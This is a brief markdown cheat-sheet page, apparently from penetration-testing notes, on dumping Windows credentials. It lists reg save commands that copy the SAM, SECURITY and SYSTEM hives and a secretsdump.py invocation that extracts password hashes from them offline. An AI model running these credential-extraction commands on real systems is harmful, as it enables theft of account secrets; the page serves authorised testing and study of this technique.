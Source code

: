 # Secretsdump

## [[SAM]]
Receiving machine passwords via impacket (Admin):
    ```powershell
    # Change permissions of hklm\security to full access
    reg save hklm\sam c:\temp\sam.save
    reg save hklm\security c:\temp\security.save
    reg save hklm\system c:\temp\system.save
    secretsdump.py -sam C:\Users\ext_ecorp_admin\Desktop\sam.save -security C:\Users\ext_ecorp_admin\Desktop\security.save -system C:\Users\ext_ecorp_admin\Desktop\system.save LOCAL
    ```

## References


```meta
requirements: 
results: 
oss: #linux
source: https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py 
description: Dump credentials remote and local via sam
```